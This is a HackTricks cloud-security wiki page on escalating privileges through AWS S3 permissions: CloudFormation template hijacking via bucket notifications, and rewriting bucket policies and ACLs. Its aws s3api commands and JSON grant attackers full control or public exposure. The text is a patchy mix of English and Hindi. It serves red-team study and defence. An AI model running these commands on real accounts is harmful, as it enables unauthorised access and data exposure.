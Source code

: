 # AWS - S3 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

एक हमलावर जिसके पास इन दिलचस्प बकेट्स पर ये अनुमतियाँ हैं, संसाधनों को हाईजैक करने और विशेषाधिकार बढ़ाने में सक्षम हो सकता है।

उदाहरण के लिए, एक हमलावर जिसके पास "cf-templates-nohnwfax6a6i-us-east-1" नामक एक क्लाउडफॉर्मेशन बकेट पर ये **अनुमतियाँ** हैं, वह डिप्लॉयमेंट को हाईजैक करने में सक्षम होगा। एक्सेस निम्नलिखित नीति के साथ दिया जा सकता है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
And the hijack is possible because there is a **छोटी समय खिड़की टेम्पलेट अपलोड होने के क्षण से** बकेट में टेम्पलेट **तैनात होने के क्षण तक**। एक हमलावर बस अपने खाते में एक **लैम्ब्डा फ़ंक्शन** बना सकता है जो **तब ट्रिगर होगा जब बकेट अधिसूचना भेजी जाएगी**, और **हाइजैक** कर लेगा उस **बकेट** का **सामग्री**।

![](<../../../.gitbook/assets/image (174).png>)

The Pacu module [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) can be used to automate this attack.\
For mor informatino check the original research: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

These are the permissions to **get and upload objects to S3**. Several services inside AWS (and outside of it) use S3 storage to store **config files**.\
An attacker with **पढ़ने की पहुंच** to them might find **संवेदनशील जानकारी** on them.\
An attacker with **लिखने की पहुंच** to them could **डेटा को संशोधित कर सकता है ताकि किसी सेवा का दुरुपयोग किया जा सके और विशेषाधिकार बढ़ाने की कोशिश की जा सके**.\
These are some examples:

* If an EC2 instance is storing the **उपयोगकर्ता डेटा in a S3 bucket**, an attacker could modify it to **EC2 instance के अंदर मनमाना कोड निष्पादित करने के लिए**.

### `s3:PutBucketPolicy`

An attacker, that needs to be **समान खाते से**, if not the error `The specified method is not allowed will trigger`, with this permission will be able to grant himself more permissions over the bucket(s) allowing him to read, write, modify, delete and expose buckets.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके **उन्हें अधिक पहुंच प्रदान कर सकता है** विशेष बाल्टियों पर।\
ध्यान दें कि हमलावर को उसी खाते से होने की आवश्यकता नहीं है। इसके अलावा, लिखने की पहुंच
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके बकेट के भीतर विशिष्ट वस्तुओं पर अधिक पहुंच प्राप्त कर सकता है।
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

इन विशेषाधिकारों के साथ एक हमलावर को एक विशिष्ट ऑब्जेक्ट संस्करण पर Acl लगाने में सक्षम होने की उम्मीद है।
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}

